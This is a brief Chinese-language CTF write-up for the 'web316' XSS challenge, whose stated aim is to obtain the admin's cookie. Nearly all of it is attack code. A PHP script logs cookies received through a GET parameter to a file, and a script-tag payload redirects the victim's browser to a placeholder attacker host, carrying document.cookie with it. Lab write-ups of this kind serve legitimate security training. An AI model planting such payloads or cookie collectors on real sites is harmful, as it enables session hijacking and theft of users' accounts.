


# web316

目标明了,需要获取管理员的cookie
```
<?php
// 修正版文件写入（仍存在安全风险）
$cookieData = $_GET['cookie'];

// 将数组转为字符串
$content = "[" . date('Y-m-d H:i:s') . "] " 
         . json_encode($cookieData, JSON_PRETTY_PRINT) 
         . PHP_EOL . PHP_EOL; // 添加换行分隔

// 文件操作
if ($file = fopen("cookie.txt", "a")) {
    fwrite($file, $content);
    fclose($file);
    echo "Cookie 已记录";
} else {
    echo "无法打开文件";
}
?>
```

```
<script>location.href="http://x.x.x.x/getflag.php?cookie="+document.cookie</script>
```
